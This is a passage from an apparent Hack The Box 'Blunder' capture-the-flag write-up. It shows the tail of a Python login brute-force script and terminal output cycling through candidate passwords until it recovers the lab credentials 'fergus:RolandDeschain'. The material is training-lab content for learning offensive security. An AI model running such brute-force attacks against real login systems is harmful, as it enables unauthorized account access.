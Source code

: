 ```python
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
and finally 
```bash
kali@kali:~/hackthebox/Blunder$ python bypass.py 
[*] Trying: Title
[*] Trying: dynamic
[*] Trying: contributions
[*] Trying: centers
[*] Trying: Foundation
[*] Trying: Powered
[*] Trying: Award
[*] Trying: charge
[*] Trying: under
[*] Trying: Mystery
[*] Trying: horror
[*] Trying: smartphones
[*] Trying: minute
[*] Trying: entire
[*] Trying: button
[*] Trying: companies
[*] Trying: small
[*] Trying: direct
[*] Trying: literature
[*] Trying: second
[*] Trying: video
[*] Trying: section
[*] Trying: access
[*] Trying: version
[*] Trying: America
[*] Trying: Short
[*] Trying: Stadia
[*] Trying: commercial
[*] Trying: Breaked
[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
()
```
Once we log in, there isn't much for us to do.